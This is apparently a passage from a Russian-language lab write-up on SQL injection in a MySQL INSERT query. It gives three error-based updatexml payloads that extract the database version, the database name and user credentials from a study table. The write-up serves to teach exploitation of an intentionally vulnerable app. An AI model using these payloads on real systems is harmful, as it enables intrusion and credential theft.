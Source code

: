 > Есть обсуждение на эту тему - https://stackoverflow.com/questions/4593563/sql-injection-on-insert

В папке **write-ups/materials** можно изучить вопрос еще более детально.

Если говорить кратко, то драйвер MySQL не допускает выполнения нескольких запросов в рамках одного вызова запроса (**query()**), именно поэтому мы не можем использовать, например, **UNION**. Вот несколько вариантов эксплуатации уязвимости:

Получение версии БД:
```
' OR updatexml(1,concat(0x7e,(version())),0) OR '
```

Получение имени БД:
```
' OR updatexml(1,concat(0x7e,(database())),0) OR '
```

Получение данных из таблицы **users** БД **study**:
```
' OR updatexml(0,concat(0x7e,(SELECT concat_ws(':',id,username,password) FROM users limit 0,1)),0) OR '
```

Уязвимое место в нашем случае следующее:

![ScreenShot](screenshots/atom-study-1.png)
